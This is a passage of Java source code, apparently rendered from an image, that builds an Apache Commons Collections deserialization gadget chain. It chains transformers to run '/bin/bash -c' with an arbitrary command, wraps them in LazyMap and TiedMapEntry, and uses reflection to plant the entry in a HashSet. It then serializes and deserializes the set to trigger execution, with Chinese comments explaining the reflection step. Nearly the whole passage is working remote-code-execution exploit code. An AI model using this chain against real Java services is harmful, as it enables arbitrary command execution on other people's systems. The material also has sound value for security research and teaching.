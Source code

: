 ```java
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( tarray );
        Map             normalMap   = new HashMap();
        Map             lazyMap     = LazyMap.decorate( normalMap, tchain );
        TiedMapEntry    tme         = new TiedMapEntry( lazyMap, null );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/util/HashSet.html
         * http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/jdk8u232-ga/src/share/classes/java/util/HashSet.java
         *
         * HashSet(int initialCapacity)
         */
        HashSet         hs          = new HashSet( 1 );
        /*
         * 原始意图是:
         *
         * hs.add( tme );
         *
         * 用反射方式达此目的。
         *
         * 占位
         */
        hs.add( "anything" );
        Field           f_map       = HashSet.class.getDeclaredField( "map" );
        f_map.setAccessible( true );
        HashMap         hs_hm       = ( HashMap )f_map.get( hs );
        Field           f           = HashMap.class.getDeclaredField( "table" );
        f.setAccessible( true );
        Object[]        table       = ( Object[] )f.get( hs_hm );
        /*
         * 假设前面hs只add()了一次，此处取上来的table[]有两个元素，一个是
         * anything，另一个是null。这与HashSet在JDK 8中的底层实现相关。本
         * 例中一般table[1]是我们要找的，但保险起见，还是这么写吧。
         */
        Object          node        = table[1];
        if ( node == null )
        {
            node    = table[0];
        }
        Field           k           = node.getClass().getDeclaredField( "key" );
        k.setAccessible( true );
        k.set( node, tme );
        ByteArrayOutputStream
                        bos         = new ByteArrayOutputStream();
        ObjectOutputStream
                        oos         = new ObjectOutputStream( bos );
        oos.writeObject( hs );
        ByteArrayInputStream
                        bis         = new ByteArrayInputStream( bos.toByteArray() );
        ObjectInputStream
                        ois         = new ObjectInputStream( bis );
```